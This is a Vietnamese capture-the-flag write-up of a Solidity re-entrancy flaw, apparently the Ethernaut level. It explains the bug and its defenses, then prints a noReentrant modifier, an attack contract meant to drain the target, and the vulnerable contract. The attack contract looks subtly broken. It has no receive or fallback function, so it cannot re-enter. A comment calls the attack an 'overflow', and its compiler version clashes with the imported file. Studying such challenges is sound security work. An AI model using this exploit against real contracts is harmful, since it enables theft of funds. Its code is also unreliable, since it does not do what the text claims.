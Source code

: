 ### Kết luận:
- Lỗ hổng: xuất phát từ việc gửi Ether trước khi cập nhật trạng thái nội bộ, cho phép attacker gọi lại hàm một cách lặp lại và rút hết tiền trong contract mục tiêu.
- Cách phòng tránh: có thể cập nhật trạng thái trước, sử dụng khóa nonReentrant, và hạn chế gas khi chuyển tiền.
- VD modifier noReentrant (có thể thêm require số dư mới của người dùng thì mới được chuyển tiếp).
```solidity
    bool private locked = false;
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }

```
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
import './reentrance.sol';
pragma solidity ^0.8.0;
interface IReentrance{
    function balances(address) external returns (uint256);
    function donate(address _to) external payable;
    function balanceOf(address _who) external view returns(uint256 balance);
    function withdraw(uint256 _amount) external;
}
contract ReentranceAttack{
    IReentrance victim;
    constructor(address payable challenge){
        victim = IReentrance(challenge);
    } 
    function attack_1_donateandwithdraw() public { // Cause overflow
        victim.donate{value: 1}(address(this));
        victim.withdraw(1);
    }
    function attack_2_reWithdraw() public{
        victim.withdraw(1); // Goi lai ham de tiep tuc tan cong cho den khi contract can tien.
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
